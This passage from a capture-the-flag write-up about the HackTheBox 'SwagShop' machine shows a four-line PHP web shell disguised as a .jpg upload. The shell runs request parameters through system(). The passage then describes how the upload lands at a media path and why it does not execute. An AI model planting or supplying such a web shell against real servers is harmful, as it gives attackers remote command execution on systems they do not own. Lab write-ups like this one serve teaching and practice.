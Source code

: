 ![](img/2022-06-14-00-57-51.png)
The file `webshell.jpg` is a simple websell:
```php
───────┬──────────────────────────────────────────────────────────────────────────
       │ File: Exploits/webshell.jpg                                             |                         
       │ Size: 107 B                                                             |         
───────┼─────────────────────────────────────────────────────────────────────────|
   1   │ <?php                                                                   |   
   2   │   echo "\n[+] Shell successfully started, showing output of '$cmd':";   |                                                                  
   3   │   system($_REQUEST["$cmd"]);                                            |                          
   4   │ ?>                                                                      |
───────┴──────────────────────────────────────────────────────────────────────────
```
And the uploaded path is `http://swagshop.htb/media/catalog/category/file.jpg`, but if we access it, it is being processed as `jpg` and not `php`, so we cannot run it. After some traversal through the page, we find out that the newspaper section is using templates: